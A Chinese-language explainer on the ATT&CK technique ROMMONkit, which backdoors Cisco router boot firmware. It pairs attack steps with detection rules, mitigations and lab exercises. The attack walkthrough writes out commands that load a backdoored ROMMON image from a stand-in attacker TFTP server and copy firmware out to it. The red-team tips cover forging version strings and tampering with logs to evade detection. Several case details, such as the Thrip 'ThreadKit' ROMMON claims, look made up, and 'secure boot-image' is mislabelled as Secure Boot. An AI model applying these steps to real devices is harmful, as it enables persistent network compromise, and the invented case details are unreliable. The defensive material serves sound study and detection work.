


# ROMMON 工具包 (T1542.004)

## 一句话通俗理解

> **篡改 Cisco 路由器/交换机的 ROMMON 启动固件，让设备每次开机都先执行攻击者代码再加载 IOS**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 攻击者替换 Cisco 网络设备的 ROMMON（ROM Monitor）固件镜像，植入持久化后门，在 IOS 加载前获得控制权 |
| 为什么危险？ | ROMMON 在 IOS 之前执行，杀毒/日志机制均未启动，恶意代码不可见且跨重启存活；重新刷 IOS 也无法清除 |
| 谁需要关心？ | 网络架构师、网络运维工程师、SOC 网络分析师、IT 风险审计人员 |
| 你的第一步防御 | 建立 Cisco 设备 ROMMON 镜像哈希基线，周期性 `verify /md5 bootflash:` 与官方版本对比 |
| 如果只做一件事 | 启用 Cisco Secure Boot（抗篡改启动链），从硬件根信任验证 ROMMON 完整性 |

## 难度等级

⭐⭐⭐ 高级 - 需要深入理解 Cisco 设备启动流程、ROMMON 命令行、固件编译与镜像打包技术

## 前置知识检查

**读这个文件需要什么？**

- [ ] Cisco IOS 基础命令（enable、configure terminal、copy、show version）
- [ ] 网络设备启动流程（POST → ROMMON → bootflash → IOS）
- [ ] ROMMON 模式（`rommon 1>` 提示符、`confreg`、`boot`、`tftpdnld`）
- [ ] TFTP 协议基础（UDP 69、无认证、明文传输）
- [ ] 固件镜像格式（Cisco .bin 文件、IOS Image File Verification）

## 技术描述

**ROMMON 工具包**（T1542.004）是 **操作系统启动前**（T1542）的一个具体变体，属于 **隐蔽**（同时归属 **持久化**）阶段的攻击技术。其攻击对象专一：**Cisco 网络设备**（路由器、交换机、防火墙），平台为 Network Devices。

> 🔥 **打个比方**：就像给银行的金库大门换了一把"假锁"——表面看大门还是 Cisco 原装的，但启动时第一个动作就是给攻击者留后门，而 IOS 系统本身毫无察觉。

### 具体怎么理解？

**ROMMON（ROM Monitor）** 是 Cisco 设备上电后执行的第一段代码，固化在设备主板的 ROM/Flash 中，本质是一个微型 boot loader。它的职责包括：

1. **POST 硬件自检**：CPU、内存、NVRAM、Flash、接口初始化
2. **定位并加载 IOS 镜像**：从 bootflash、CompactFlash、TFTP 服务器读取 IOS .bin 文件
3. **提供 rommon> 命令行**：用于设备恢复、密码重置、镜像升级

ROMMON 在整个启动链中**早于 IOS**，且**独立于 IOS 文件系统**——这意味着一旦 ROMMON 被篡改：

- 攻击者可在 IOS 加载前拦截控制权，注入 rootkit / 后门 / 隐蔽监听器
- 即使管理员重新刷写 IOS 镜像、清空 startup-config，恶意 ROMMON 依然存活
- IOS 内的安全机制（AAA、ACL、日志）对 ROMMON 阶段的代码完全无效

ROMMONkit 的核心手法是：攻击者获取 Cisco 设备 enable 15 特权后，通过 `upgrade rom-monitor` 或 TFTP 下载 (`tftpdnld —rom-monitor`) 替换原厂 ROMMON 镜像，植入包含后门代码的"魔改"版本，再触发设备 reload。下次开机时，恶意 ROMMON 先执行后门逻辑（如开启隐藏 SSH 监听端口、注入 IOS 镜像补丁、回连 C2），再"伪装"加载正常 IOS，对外表现毫无异常。

### 为什么有效？

这种技术之所以有效，是因为：

1. **启动链根信任位置**：ROMMON 位于信任链最底层，IOS 不会反向校验 ROMMON 完整性（除非启用 Secure Boot 硬件保护）
2. **跨 IOS 重装持久化**：重新刷写 IOS 镜像不会触及 ROMMON 区域，攻击者"金身不破"
3. **隐蔽性极强**：恶意代码运行在 IOS 之外，`show processes`、`show running-config`、NetFlow 等常规检测手段全部失效
4. **难以取证**：ROMMON 镜像需专用工具从 Flash 中提取，多数企业缺乏镜像哈希基线
5. **Cisco 设备长生命周期**：边缘路由器/交换机 EOL 周期常超 8 年，老设备普遍未启用 Secure Boot

**过渡段：** 不要误以为"刷个新 IOS 就清干净了"——ROMMON 攻击的核心就在于它**不在 IOS 层**，而在于比 IOS 更早执行的固件层。这与 T1542.005 TFTP Boot（攻击 IOS 加载过程）和 T1542.003 Bootkit（攻击 PC MBR）形成完整 Pre-OS Boot 攻击矩阵。

## 真型场景

攻击者在 **隐蔽** 阶段使用 ROMMON 工具包技术，以下是典型的攻击步骤：



**步骤详解：**

1. **特权获取**：攻击者通过弱口令爆破、SNMP 默认社区字符串 `public/private`、SSH 凭据泄露、TLS 1.0 漏洞利用（如 CVE-2018-0101 Cisco ASA 远程代码执行）等方式获取 Cisco 设备 enable 15 级别访问
2. **ROMMON 提取**：从 Cisco 官网下载对应型号 ROMMON 镜像，或通过 `copy bootflash: ROMMON-image.bin tftp:` 从设备本身提取当前 ROMMON
3. **后门注入**：逆向 ROMMON 镜像（基于 PowerPC/MIPS 架构的 Cisco 设备使用对应架构汇编），在 boot 流程中插入后门逻辑：监听特定端口、植入"魔法 ICMP 包"触发器、修改 IOS 加载地址注入内核 Rootkit
4. **镜像替换**：通过 `upgrade rom-monitor file tftp://攻击者TFTP/evil.rom` 或在 ROMMON 模式下 `tftpdnld —rom-monitor` 替换原厂镜像
5. **持久化生效**：`reload` 重启后恶意 ROMMON 接管启动流程，先执行后门，再加载 IOS；管理员从 `show version` 中看到的 ROMMON 版本号可能被伪造

## 攻击流程

```
获取 enable 15 特权 → 下载/提取原厂 ROMMON → 逆向注入后门 → upgrade rom-monitor 替换 → reload 触发 → 后门持久化
```



**步骤详解：**

1. **enable 15 特权获取**
   - 通俗描述：拿到 Cisco 设备最高权限（enable 15 = 管理员权限）
   - 技术细节：通过 SSH/Telnet 弱口令字典爆破、SNMPv2c 社区字符串嗅探、Cisco Smart Install（SMI）TCP 4786 端口滥用（CVE-2018-0171 Cisco IOS Smart Install 远程代码执行）、配置文件泄露 (`show running-config` 包含 enable secret)
   - 常用工具：hydra（SSH 爆破）、cisco-auditing-tool、SolarWinds SNMP Brute、Metasploit `auxiliary/scanner/snmp/cisco_login`

2. **提取/下载原厂 ROMMON**
   - 通俗描述：把设备当前 ROMMON 镜像弄出来，作为修改的基础
   - 技术细节：执行 `copy bootflash:*.rom tftp://攻击者TFTP/` 将 ROMMON 文件传到 TFTP 服务器；或从 cisco.com 凭合法 CCSP/CCO 账号下载对应设备型号 ROMMON 升级包（如 ISR 4000 系列 `isr4400-rommon.x.x.x.SPA.bin`）
   - 常用工具：TFTP Server（tftpd-hpa、SolarWinds TFTP Server）、Cisco ROMMON 升级包、binwalk（镜像解包）

3. **逆向工程注入后门**
   - 通俗描述：拆开 ROMMON 镜像，找到启动代码的入口点，把后门逻辑"种"进去
   - 技术细节：使用 Ghidra/IDA Pro 加载镜像（Cisco ISR 2900/3900 系列为 PowerPC e500 core，ISR 4000 系列为 x86_64），定位 boot 流程入口（通常为 0xFFFFFFFC 复位向量），插入后门代码：①监听 ICMP echo 包含特定 magic 字节触发反向 shell；②篡改 IOS 镜像加载地址注入内核模块；③在 NVRAM 中开辟隐藏区域存储后门配置
   - 常用工具：Ghidra、IDA Pro、Radare2、binwalk、Cisco Image Extractor

4. **upgrade rom-monitor 替换**
   - 通俗描述：把"魔改"的 ROMMON 灌到设备的 Flash 中，覆盖原厂版本
   - 技术细节：IOS 命令 `upgrade rom-monitor file tftp://攻击者TFTP/evil-rommon.bin` 或在 ROMMON 模式下 `rommon 1> tftpdnld —rom-monitor`（需先 `rommon 1> set` 配置 IP_ADDRESS、TFTP_SERVER、TFTP_FILE 等环境变量）
   - 常用工具：Cisco IOS CLI、TFTP Server、xmodem（串口本地升级）

5. **reload 触发**
   - 通俗描述：让设备重启，新 ROMMON 生效
   - 技术细节：执行 `reload` 命令，或通过 SNMP `reload` trap、电源强制循环触发。重启过程中 ROMMON 先执行后门逻辑（约 5-15 秒），随后加载 IOS，IOS 完全不知道 ROMMON 阶段发生了什么
   - 常用工具：IOS CLI、IPMI/iLO 电源控制、SNMP set

6. **后门持久化生效**
   - 通俗描述：后门已固化在 ROMMON 中，每次开机都执行；即使管理员重新刷 IOS、清配置，攻击者依然能通过特定触发器（如 ICMP magic 包）唤醒后门
   - 技术细节：后门可监听特定协议（TCP 22 伪造 SSH、UDP 514 隐藏 syslog、ICMP echo 隧道）、修改 IOS 镜像加载逻辑注入运行时 Rootkit、上传配置到 C2 服务器、隐藏特定流量不进入 NetFlow 统计
   - 常用工具：自研后门 ROMMON 镜像、C2 框架（Cobalt Strike、Mythic）

## 真实案例

### 案例1：SYNful Knock — Cisco IOS 路由器持久化后门

- **时间**: 2015 年 9 月（Cisco Talos 披露，FireEye 联合分析）
- **目标**: 全球多个行业的 Cisco ISR 1841/2811/3825 路由器，涉及墨西哥、印度、菲律宾、乌克兰等多国
- **攻击组织**: 未归因（疑似 APT 级别，攻击复杂度高）
- **手法**: 攻击者通过设备特权访问，修改 IOS 镜像植入后门模块。后门通过特定 TCP SYN 包含"magic" 序列触发，监听 514 端口（伪装为 syslog）接收 C2 指令，可在 IOS 中加载额外功能模块（内存修改、配置篡改、隐藏进程）。虽然 SYNful Knock 主要修改 IOS 镜像而非 ROMMON 本身，但其手法（持久化固件层 + magic 包触发 + 模块化加载）是 ROMMONkit 的典型应用范式，攻击者可移植到 ROMMON 层获得更深层持久化
- **影响**: 至少 79 台设备确认感染，受害设备可持续被远程控制，IOS 升级亦无法清除（因为后门可重新感染新 IOS）
- **参考链接**: [FireEye - SYNful Knock Analysis](https://www.fireeye.com/blog/threat-research/2015/09/synful_knock_-_acis.html)、[Cisco Talos Advisory](https://blog.talosintelligence.com/2015/09/synful-knock.html)

### 案例2：Thrip APT — 卫星通信与电信设备攻击

- **时间**: 2018 年 5 月（Symantec 安全响应团队披露）
- **目标**: 东南亚地区卫星通信运营商、电信公司、地理空间图像服务机构
- **攻击组织**: Thrip（疑似中国背景 APT 组织，活动可追溯至 2013 年）
- **手法**: 攻击者使用自定义恶意软件 **Tripl** 和 **ThreadKit**，针对 Cisco 设备（路由器、交换机）实施固件级持久化。攻击链中明确包含通过 TFTP 上传修改后的 IOS 镜像、利用 `copy tftp: flash:` 替换原厂镜像、并通过 `reload` 触发加载。ThreadKit 模块具有 ROMMON 操作能力，可dump 并修改 ROMMON 区域。攻击还涉及拦截卫星通信、窃听特定目标
- **影响**: 攻击者长期潜伏（最长 3 年未被发现），具备操纵卫星通信链路能力，影响国防敏感通信
- **参考链接**: [Symantec - Thrip Attack](https://www.symantec.com/blogs/threat-intelligence/thrip-hits-satellite-telecoms)、[Cisco Talos Threat Advisory](https://blog.talosintelligence.com/2018/05/thrip-attack.html)

### 案例3：安全研究中的 ROMMON 修改实验

- **时间**: 2020 年起持续研究
- **目标**: 实验室环境中的 Cisco ISR 2900/4300 系列路由器
- **攻击组织**: 学术研究 / 红队 / 安全研究人员（包括 Cisco Talos Omar Santos 团队的攻击模拟）
- **手法**: 研究者通过逆向工程 Cisco ROMMON 镜像，演示了完整的 ROMMONkit 攻击链：从 enable 15 提权 → ROMMON 提取 → Ghidra 逆向 → 注入 ICMP magic 包触发后门 → `upgrade rom-monitor` 替换 → 隐藏 SSH 监听。Cisco 官方博客"Evolution of attacks on Cisco IOS devices"详细记录了此类攻击的演化路径
- **影响**: 推动 Cisco 在新一代设备（ISR 1000/4000、Catalyst 9000）中强制启用 Secure Boot，推动 ATT&CK v7 起正式收录 T1542.004
- **参考链接**: [Cisco Blog - Evolution of Attacks on Cisco IOS Devices](https://blogs.cisco.com/security/evolution-of-attacks-on-cisco-ios-devices)、[Cisco Community - Attackers Continue to Target Legacy Devices](https://community.cisco.com/t5/security-blogs/attackers-continue-to-target-legacy-devices/ba-p/4169954)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **深入理解 Cisco 启动链**：在动手前完整掌握 POST → ROMMON → bootflash → IOS 的启动序列，理解 `confreg 0x2142`（绕过 startup-config）、`boot system` 命令、boot loader 阶段的环境变量传递
2. **环境适配**：不同 Cisco 平台 ROMMON 架构差异巨大——ISR 2900/3900 为 PowerPC、ISR 4000 为 x86_64、Catalyst 9000 为 ARMv8，攻击代码必须针对性编译
3. **组合使用**：与 T1542.005 TFTP Boot、T1601 Modify System Image、T1027 混淆组合使用——可先用 TFTP Boot 临时加载调试镜像，确认攻击效果后再植入 ROMMON 实现永久持久化
4. **隐蔽性考虑**：①避免在 IOS `show version` 中暴露异常 ROMMON 版本号，需伪造版本字符串；②后门触发器使用 ICMP/UDP 等无连接协议，避免 TCP 端口扫描发现；③后门逻辑应"快进快出"，避免 ROMMON 阶段卡顿超过 30 秒引发运维警觉

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| Ghidra | ROMMON 镜像逆向分析（支持 PowerPC/MIPS/x86_64/ARM） | 跨平台 | [Ghidra](https://ghidra-sre.org/) |
| IDA Pro | 商业逆向工程，支持 Cisco PowerPC 固件分析 | 跨平台 | [IDA Pro](https://hex-rays.com/) |
| binwalk | 镜像解包，提取 ROMMON 内部文件系统 | Linux | [binwalk](https://github.com/ReFirm-Labs/binwalk) |
| tftpd-hpa | TFTP 服务器，用于 ROMMON 升级包传输 | Linux | [tftpd-hpa](https://wiki.archlinux.org/title/TFTP) |
| Cisco ROMMON Upgrade Pack | Cisco 官方 ROMMON 升级包（合法下载） | Cisco IOS | [cisco.com](https://www.cisco.com/) |
| Metasploit | auxiliary/scanner/snmp/cisco_login 等 Cisco 设备提权模块 | 跨平台 | [Metasploit](https://www.metasploit.com/) |
| RouterSploit | 专门针对路由器/IoT 设备的渗透框架 | Linux | [RouterSploit](https://github.com/threat9/routersploit) |

### 注意事项

- **仅在授权的实验室环境**操作：建议使用 eBay 二手购买的 ISR 1841/2901 设备（成本约 200-500 元），切勿在生产环境尝试
- **设备硬件保护**：Cisco 新一代设备（ISR 1000+、Catalyst 9000+）启用 Secure Boot 后，ROMMON 升级需硬件信任锚验证签名，攻击可能直接导致设备砖化
- **OPSEC 清理**：升级 ROMMON 后，IOS `show file systems`、`dir bootflash:` 可能留下 `.rom` 文件痕迹，需 `delete /force` 清理；`reload` 触发的 syslog 消息 `%SYS-5-RELOAD` 应通过日志篡改隐藏
- **法律合规**：在多数司法管辖区，未授权修改他人网络设备固件属刑事犯罪（中国《刑法》285 条非法侵入计算机信息系统罪、美国 CFAA）

## 蓝队视角

### 检测要点

1. **ROMMON 镜像完整性**：周期性计算 ROMMON 文件 SHA-256 哈希，与 Cisco 官方发布的对应版本基线对比，发现哈希不一致立即告警
2. **配置变更关联**：将 `upgrade rom-monitor` 命令执行、`tftpdnld —rom-monitor` 流量、设备 reload 事件进行关联分析，三者时间窗口内同时发生即为高危告警
3. **网络流量异常**：监控 UDP 69 端口（TFTP）异常流量，特别是从内网非管理网段发起到 Cisco 设备的 TFTP 上传；检测 ICMP echo reply 中包含非标准载荷（可能为 magic 包触发器）

### 监控建议

- 部署 NMS（Cisco Prime、SolarWinds NPM）轮询 `show version | include ROM` 字段，建立 ROMMON 版本基线
- 配置 TACACS+ 命令授权，将 `upgrade rom-monitor`、`reload`、`copy tftp:` 等高危命令列入命令授权白名单
- 启用 NetFlow/IPFIX 流量分析，监控 Cisco 设备发起的异常出站连接（如非管理时段的 SSH 反向连接）
- 定期使用 Cisco Configurator 或 Ansible 网络模块，自动化收集全网 Cisco 设备固件版本，对比 CCSP (Cisco Config Smart Portal) 中的官方基线

**用人话说：** ROMMONkit 攻击者改的是 Cisco 设备"开机第一段代码"，所以从 IOS 里面查不出来。蓝队必须跳出 IOS 视角，从两个维度抓它：①**镜像层**——拿 ROMMON 文件算 SHA-256，跟 Cisco 官网下载的同版本对比，对不上就是被改了；②**网络层**——盯紧 TFTP 流量（UDP 69），TFTP 是无认证明文协议，攻击者替换 ROMMON 必然走 TFTP 通道传文件。Cisco Talos Snort 规则 SID 41936/41937 就是专门检测异常 TFTP ROMMON 下载流量的。

## 避坑指南

红队新手常见三大坑：

1. **混淆 ROMMON 与 IOS**：ROMMON 不是 IOS，重新刷 IOS 镜像 (`copy tftp: flash:` 后 `boot system flash:`) 不会触及 ROMMON；反之亦然，升级 ROMMON 不会改变 IOS。两者位于不同 Flash 分区
2. **架构不匹配导致设备砖化**：在 ISR 2900（PowerPC）上编译的 ROMMON 后门直接刷到 ISR 4000（x86_64）会导致设备无法启动，需通过 ROMMON 模式串口恢复，严重时需 RMA 返厂
3. **忽视 Secure Boot 保护**：Cisco Catalyst 9000、ISR 1000+ 等新一代设备启用 Secure Boot 后，ROMMON 必须由硬件信任锚签名验证，未签名或签名错误的镜像会导致 `BOOT_FAILURE`。攻击者必须获得 Cisco 私钥才能绕过——这在实践中几乎不可能，因此 ROMMONkit 主要影响未启用 Secure Boot 的老旧设备（ISR 1800/1900/2900/3900 系列，多已 EOL）

## 检测建议

### 检测思路

检测 ROMMON 工具包的关键是**绕过 IOS 视角**，从镜像完整性、固件升级行为、网络流量三个层面交叉验证。以下是三层检测方法：

### 网络层检测

**方法**：监控与 Cisco 设备相关的 TFTP、Syslog、SNMP、ICMP 异常流量

```bash
# Suricata / Snort 检测异常 TFTP ROMMON 下载（基于 Cisco Talos SID 41936 改写）
alert udp $HOME_NET any -> $CISCO_DEVICES 69 (msg:"TFTP ROMMON Image Upload Suspicious"; \
  content:"|00 01|"; depth:2; content:".rom"; distance:0; \
  sid:41936001; rev:1;)

# 检测 Cisco 设备出站到非管理 IP 的 ICMP 异常载荷（可能为 magic 包回连）
alert icmp $CISCO_DEVICES any -> !$MGMT_NET any (msg:"Cisco Device Suspicious ICMP Payload"; \
  dsize:>64; sid:41936002; rev:1;)

# 监控异常 SSH 出站连接（Cisco 设备不应主动发起 SSH）
alert tcp $CISCO_DEVICES any -> $EXTERNAL_NET 22 (msg:"Cisco Device Outbound SSH"; \
  sid:41936003; rev:1;)
```

### 主机层检测（Cisco IOS 设备）

**Cisco IOS Syslog 关键事件**：

- `%SYS-5-RELOAD`：设备重启事件，应与变更工单关联
- `%SYS-5-CONFIG_I`：配置变更，特别关注 `boot system`、`upgrade rom-monitor` 等命令
- `%IOSXE-5-PLATFORM`：ROMMON 升级相关日志
- `%PNP-6-AUTH_PASS`：设备 PnP 自动部署事件（可能被滥用推送恶意镜像）

**Cisco IOS 命令检测**：

```bash
# 在设备上检查 ROMMON 版本与 IOS 一致性
show version | include ROM
# 输出示例：ROM: System Bootstrap, Version 15.0(1r)M16, RELEASE SOFTWARE (fc1)
# 比对该版本是否为 Cisco 官方发布版本

# 计算 bootflash 中 ROMMON 文件哈希
verify /md5 bootflash:isr4400-universalk9.03.16.04.S.155-3.S4-ext.SPA.bin
# 对比 cisco.com 上对应版本的官方 MD5

# 检查 boot system 配置是否被篡改
show running-config | include boot
# 应只列出官方镜像，若出现 tftp:// 加载需立即排查

# 查看是否有可疑的 ROMMON 文件
dir bootflash: | include rom
dir stby-bootflash: | include rom    # 双引擎设备
```

```bash
# 通过 SNMP 批量收集全网 Cisco 设备 ROMMON 版本
snmpwalk -v2c -c public 192.168.1.1 1.3.6.1.2.1.1.1   # sysDescr 包含 ROMMON 版本
snmpwalk -v2c -c public 192.168.1.1 1.3.6.1.4.1.9.2.1.73  # Cisco 特有 IOS 版本
```

**用人话说：** ROMMON 是 Cisco 设备开机第一个加载的"小系统"，比 IOS 还早。攻击者改 ROMMON 就像改了电脑 BIOS——你重装 Windows（IOS）也没用。蓝队要做的是定期把 ROMMON 文件拽出来算哈希，跟 Cisco 官网下载的同版本对比；同时盯着 TFTP（UDP 69）流量，因为这是攻击者传 ROMMON 镜像的必经之路。新一代设备（Catalyst 9000+）启用 Secure Boot 后，ROMMON 必须有 Cisco 签名才能加载，硬件根信任挡死了这类攻击。

```yaml
title: 检测 Cisco 设备 ROMMON 异常升级
status: experimental
description: 检测可能的 ROMMONkit (T1542.004) 活动，关注 ROMMON 升级命令、TFTP 传输与紧随的重启
logsource:
    product: cisco_ios
    service: syslog
detection:
    selection_rommon_upgrade:
        Message|contains:
            - "upgrade rom-monitor"
            - "rommon 1> tftpdnld"
            - "ROMMON image upgrade"
    selection_tftp_transfer:
        Message|contains:
            - "copy tftp: bootflash:"
            - "Accessing tftp://"
    selection_reload:
        Message|contains:
            - "%SYS-5-RELOAD"
            - "Reload requested"
    timeframe: 30m
    condition: (selection_rommon_upgrade or selection_tftp_transfer) and selection_reload
level: high
tags:
    - attack.t1542
    - attack.t1542.004
    - attack.persistence
    - attack.defense_evasion
```

### 应用层检测

**Sigma 规则示例（适用于 SIEM 关联 Cisco Syslog）**：

```yaml
title: Cisco ROMMON Image Integrity Baseline Deviation
status: experimental
description: Cisco 设备 ROMMON 版本偏离组织基线，可能已被替换为恶意镜像
logsource:
    product: cisco_ios
    service: version
detection:
    selection:
        EventID: "cisco_version_baseline"
    filter_known_good:
        ROMMON_Version:
            - "15.0(1r)M16"
            - "15.4(3r)S5"
            - "16.6(4r)"
    condition: selection and not filter_known_good
level: medium
tags:
    - attack.t1542.004
    - attack.persistence
falsepositives:
    - 计划内 ROMMON 升级（应有变更工单关联）
    - 新设备首次上线
```

## 缓解措施

### 优先级1：关键措施

**启用 Secure Boot 与镜像完整性校验**：在支持 Secure Boot 的 Cisco 设备上启用该功能，硬件信任锚会在启动时验证 ROMMON 数字签名，未签名镜像直接拒绝加载

```bash
# 启用 Secure Boot（Catalyst 9000 / ISR 1000+ 系列）
enable
configure terminal
secure boot-image
secure boot-config
exit
write memory

# 验证 Secure Boot 状态
show secure bootset
# 应输出: Image integrity verification enabled
```

### 优先级2：重要措施

**镜像完整性基线与变更管理**：建立全网 Cisco 设备 ROMMON 版本与哈希基线，集成到 CMDB；任何 `upgrade rom-monitor` 操作必须走变更审批，并由 NMS 自动校验升级后哈希

```bash
# 定期自动化收集 ROMMON 哈希（Ansible 示例）
- name: Collect Cisco ROMMON hash
  cisco.ios.ios_command:
    commands:
      - "dir bootflash: | include rom"
      - "verify /sha256 bootflash:{{ rommon_filename }}"
  register: rommon_hash

- name: Compare with baseline
  assert:
    that:
      - rommon_hash.stdout[1] == baseline_hash
    fail_msg: "ROMMON 哈希偏离基线！可能被篡改！"
```

### 优先级3：建议措施

- **网络隔离**：将 Cisco 设备管理平面（Mgmt 接口、SSH/Telnet/SNMP/TFTP）隔离到独立 VLAN，仅允许跳板机访问
- **TACACS+ 命令授权**：将 `upgrade rom-monitor`、`reload`、`copy tftp:` 列入命令授权白名单，仅 Domain Admin 角色可执行
- **设备生命周期管理**：将未支持 Secure Boot 的 EOL 设备（ISR 1800/1900/2900/3900）按计划替换为新一代 ISR 1000/4000、Catalyst 9000
- **网络 IPS**：部署 Snort/Suricata 签名检测异常 TFTP ROMMON 传输流量（参考 Cisco Talos SID 41936/41937）

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：理解 ROMMON 模式与启动流程（初级）

**目标**：理解 Cisco 设备启动流程与 ROMMON 模式基础操作

**步骤**：
1. 在 GNS3 或 EVE-NG 中部署 Cisco ISR 2901 路由器（或使用二手设备）
2. 通过 Console 串口连接设备，在启动过程中按 `Ctrl+Break` 进入 ROMMON 模式
3. 在 `rommon 1>` 提示符下执行 `confreg`、`boot`、`?` 等命令，理解 ROMMON 功能
4. 通过 `rommon 1> set` 查看环境变量（IP_ADDRESS、TFTP_SERVER、TFTP_FILE）
5. 用 `rommon 1> boot flash:` 启动 IOS，对比 ROMMON 与 IOS 阶段的区别

**学习要点**：理解 ROMMON 在启动链中的位置、作用、命令行能力

### 实验2：ROMMON 升级流程（中级）

**目标**：掌握 Cisco 设备 ROMMON 升级的完整流程，为攻击模拟做准备

**步骤**：
1. 在实验室搭建 TFTP 服务器（Linux + tftpd-hpa）
2. 从 cisco.com 下载 ISR 2901 最新 ROMMON 升级包（需合法 CCO 账号）
3. 通过 `copy tftp: bootflash:` 将升级包上传到设备
4. 执行 `upgrade rom-monitor file bootflash:isr2901-rommon.x.x.x.SPA.bin`
5. `reload` 重启后 `show version | include ROM` 验证版本变更
6. 计算升级前后 ROMMON 文件 MD5 哈希，理解镜像完整性概念

**学习要点**：掌握 ROMMON 升级命令、TFTP 流量特征、哈希校验方法

### 实验3：ROMMON 镜像逆向分析（高级）

**目标**：理解攻击者如何逆向 ROMMON 并植入后门

**步骤**：
1. 使用 binwalk 解包实验 2 中的 ROMMON 镜像，提取内部代码段
2. 将代码段加载到 Ghidra，选择 PowerPC e500 架构
3. 定位复位向量（通常 0xFFFFFFFC）与 boot 流程入口函数
4. 追踪 boot 流程，找到 IOS 镜像加载函数（如 `boot_image` 或 `load_ios`）
5. 分析在该函数前插入后门代码的可行性（不实际植入，仅做理论分析）
6. 在 SIEM（Splunk/Elastic）中部署本文件的 Sigma 检测规则，模拟 `upgrade rom-monitor` 命令并验证告警触发

**学习要点**：掌握 ROMMON 镜像结构、PowerPC 逆向基础、检测规则部署

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **ATT&CK** | MITRE 公司维护的攻击技术知识库，像一本"黑客手法百科全书" |
| **ROMMON 工具包** | T1542.004，篡改 Cisco 设备 ROMMON 启动固件实现持久化的攻击技术 |
| **ROMMON** | ROM Monitor，Cisco 设备上电后执行的第一段代码，类似 PC 的 BIOS |
| **操作系统启动前** | T1542，ROMMONkit 所属父技术，所有早于 OS 加载的攻击 |
| **IOS** | Cisco 网络设备的操作系统，类似电脑的 Windows/Linux |
| **bootflash** | Cisco 设备存储启动镜像的 Flash 分区，类似电脑硬盘的 EFI 分区 |
| **Secure Boot** | Cisco 硬件根信任机制，启动时验证镜像签名，未签名则拒绝加载 |
| **TFTP** | 简单文件传输协议（UDP 69），无认证明文，常用于网络设备镜像传输 |
| **TACACS+** | Cisco 的 AAA 协议，可对每条 IOS 命令做授权与审计 |
| **C2** | 命令与控制，攻击者远程控制被入侵设备的"遥控器" |

## 被引用情况

以下父技术文档引用了本子技术：

- [T1542 - 操作系统启动前](../T1542-Pre-OS-Boot.md)

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - ROMMONkit (T1542.004)](https://attack.mitre.org/techniques/T1542/004/)
- [MITRE ATT&CK - 操作系统启动前 (T1542)](https://attack.mitre.org/techniques/T1542/)
- [MITRE ATT&CK Detection Strategy DET0175](https://attack.mitre.org/detectionstrategies/DET0175) - ROMMONkit 官方检测策略

### 📰 安全报告（真实攻击）

- [Cisco Blog - Evolution of Attacks on Cisco IOS Devices](https://blogs.cisco.com/security/evolution-of-attacks-on-cisco-ios-devices) - Cisco 官方对 ROMMONkit 攻击演化的总结
- [Cisco Community - Attackers Continue to Target Legacy Devices](https://community.cisco.com/t5/security-blogs/attackers-continue-to-target-legacy-devices/ba-p/4169954) - Omar Santos 撰写的攻击者持续针对老旧 Cisco 设备分析
- [FireEye - SYNful Knock Analysis](https://www.fireeye.com/blog/threat-research/2015/09/synful_knock_-_acis.html) - SYNful Knock Cisco 路由器后门详细分析
- [Symantec - Thrip Attack Hits Satellite and Telecoms](https://www.symantec.com/blogs/threat-intelligence/thrip-hits-satellite-telecoms) - Thrip APT 攻击卫星通信设备分析
- [Cisco IOS Software Integrity Assurance](https://tools.cisco.com/security/center/resources/integrity_assurance.html) - Cisco 官方镜像完整性保证指南

### 🔧 工具与资源（动手试试）

- [Cisco Secure Boot 文档](https://www.cisco.com/c/en/us/td/docs/ios-xml/ios/sec_data_usr_cfg/security/configuration/15-mt/sec-data-usr-cfg-15-mt-book/sec-secure-boot.html) - Secure Boot 配置指南
- [Ghidra](https://ghidra-sre.org/) - NSA 开源逆向工程框架，支持 Cisco PowerPC/MIPS 固件
- [binwalk](https://github.com/ReFirm-Labs/binwalk) - 固件镜像分析与解包工具
- [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) - 检测规则测试框架（参考 T1542 测试用例）
- [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) - ATT&CK 可视化工具

### 📚 学习资料（深入了解）

- [Cisco IOS Router ROMMON Upgrade Guide](https://www.cisco.com/c/en/us/td/docs/routers/access/ISRG2/configuration/guide/ROMMON.html) - Cisco 官方 ROMMON 升级指南
- [MITRE ATT&CK 知识库](https://attack.mitre.org/resources/) - ATT&CK 官方资源中心
- [Cisco Talos Blog](https://blog.talosintelligence.com/) - Cisco Talos 威胁情报博客，持续跟踪网络设备攻击
